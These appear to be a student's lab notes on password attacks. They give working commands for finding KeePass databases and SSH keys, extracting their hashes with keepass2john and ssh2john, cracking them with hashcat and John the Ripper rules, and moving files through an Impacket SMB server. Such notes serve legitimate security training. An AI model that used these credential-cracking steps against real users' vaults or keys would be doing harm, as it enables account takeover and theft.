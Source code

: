 #### Cracking Methodology
1. Extract hashes
2. Format hashes
		- double check algo with multiple tools
	- hash-identifier
	- or hashid
4. Calculate the cracking time
	- keyspace / hash rate = time (s)
5. Prepare wordlist
6. Attack the hash

### Password Manager
Examples: 1Password & KeePass
- locate password manager
- locate database file in Powershell
	- Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
		- -Path = to search whole drive
		- -include = file type
		- -File = list of files
- John the Ripper (JtR)
	- has various transformation scripts
		- ssh2john
		- keepass2john
			- keepass2john Database.kdbx > keepass.hash
			- cat keepass.hash
				- remove prepended string
			- hashcat --help | grep -i "KeePass"
			- hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
				- **rockyou-30000.rule** = hashcats rockyou rule list
- Impacket
	- smb share
		- [transfer files windows <--> kali]
	- [Kali] impacket-smbserver share_name share_folder -smb2support -username User -password Pass
		- specific ex:
			- impacket-smbserver share /home/tristan/ -smb2support -username kali -password kali
	- [Windows] net use \\10.10.10.10\share /u:user password

### SSH Private Key Passphrase
- Example:
	- chmod 600 id_rsa
	- ssh -i id_rsa -p 222 dave@192.168.50.201
	- ssh2john id_rsa > ssh.hash
		- $6 in hash = SHA-512
	- hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
		- has aes-256-ctr cipher
		- JtR supports the cipher
	- JtR
		- edit rule list
			- /etc/john/john.conf
			- cat ssh.rule
			- ```
				[List.Rules:sshRules]
				c $1 $3 $7 $!
				c $1 $3 $7 $@
				c $1 $3 $7 $#
					```
			- sudo sh -c  'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
				- sh -c append the contents 
			- john --wordlist=ssh.passwords --rules=sshRules ssh.hash
### Cracking NTLM
		- some credentials stored when a service is run with a user account